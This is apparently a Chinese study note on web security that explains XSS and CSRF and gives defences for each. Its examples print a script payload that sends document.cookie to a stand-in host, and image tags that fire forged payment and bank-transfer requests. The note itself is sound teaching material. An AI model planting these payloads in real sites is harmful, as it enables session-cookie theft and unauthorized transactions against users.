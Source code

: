 # Web安全
## SQL注入
验证输入

## XSS (Cross Site Scripting, 跨站脚本攻击)
1. DOM Based XSS
假设网站的content内容是由query中content决定的. 将`http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>`这个链接通过邮件发给用户, 用户点击后会被盗取cookie信息;

2. Stored XSS
在某博客平台发表的文章中插入`<script>window.open(“www.b.com?param=”+document.cookie)</script>`

预防:
1. 字符替换用户输入的代码`<, >, &, ", ', / ....`;
2. cookie增加`http-only`限制, 禁止js操作
header头`set-Cookie: ..........; HttpOnly`

## CSRF (Cross-site request forgery, 跨站请求伪造)
CSRF 是借用了当前操作者的权限来偷偷地完成某个操作，而不是拿到用户的信息。

![csrf](../_media/csrf.jpg)

例1:
一个用户已经登录了http://buy.com，在选择商品时，突然收到一封邮件，而这封邮件正文有这么一行代码`<img src="http://buy.com/pay?touid=999&money=100"/>`，他访问了邮件之后，其实就已经完成了购买。

例2:
银行网站A，它以GET请求来完成银行转账的操作，如：`http://www.mybank.com/Transfer.php?toBankId=11&money=1000`
危险网站B，它里面有一段HTML的代码如下：
`<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>`
首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......

**CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！**

预防:
1. 涉及现金交易的肯定要输入密码或者指纹
2. 敏感接口使用POST而不是GET
3. one-Time Tokens(不同的表单包含一个不同的伪随机值)
>必须小心操作以确保CSRF保护措施不会影响选项卡式的浏览或者利用多个浏览器窗口浏览一个站点。
4. 验证码